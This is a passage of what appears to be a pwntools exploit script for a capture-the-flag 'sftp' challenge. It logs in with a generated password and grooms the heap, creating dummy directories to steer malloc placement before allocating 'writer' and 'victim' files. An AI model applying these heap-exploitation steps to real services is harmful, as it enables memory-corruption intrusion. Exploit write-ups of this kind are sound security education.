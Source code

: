 ```python
		r = process("./sftp")
	else:
		r = remote('sftp.ctfcompetition.com', 1337)
	
	if DEBUG:
		t = libc.time(0)
		if t != match.target_time:
			log.warning("Wrong time synchronization!")	# Should not occur. If it does, please reach out to me :)
			exit()

	r.sendline('yes')
	r.sendline(PASSWORD) # log in using the password we generated.
	
	##########################################################################################
	#                                                                                        #
	#                Allocate writer & victim functionality.                                 #
	#                                                                                        #
	##########################################################################################

	writer_first = match.malloc_writer < match.malloc_victim
	alloc_counter = 0

	#############################################################################################
	#                                                                                           #
	#                   Explanation of the functionality.                                       #
	#            -----------------------------------------------                                #
	#   1) Allocate dummy directories, until we reach the desired rand() result that will       #
	#      produce a good first malloc() address :)                                             #
	#                                                                                           #
	#   2) Allocate the first file.                                                             #
	#                                                                                           #
	#   3) Allocate dummy directories until we reach the second file.                           #
	#                                                                                           #
	#   4) Allocate the second file.                                                            #
	#                                                                                           #
	#############################################################################################
	
	# Step (1):

	# First padding; 
	# Dummy directories to eventually reach our desired malloc() results.
	
	log.info("First padding in progress... ")
	while alloc_counter < min(match.malloc_writer, match.malloc_victim):
		alloc_counter += 1
		do_mkdir('AAAAdummy%d' % alloc_counter)
	
	log.success("Successfully finished the first padding.")

	# Step (2):

	# Allocation of the first entity.
	# An entity is the malloc_writer / malloc_victim.

	log.info("Allocating the first entity.. ")
	alloc_counter += 2
	if writer_first:
		do_put('CCCCwriter', length=65500)
	else:
		do_put('BBBBvictim', length=10)
	
	log.success("First entity successfully allocated.")
```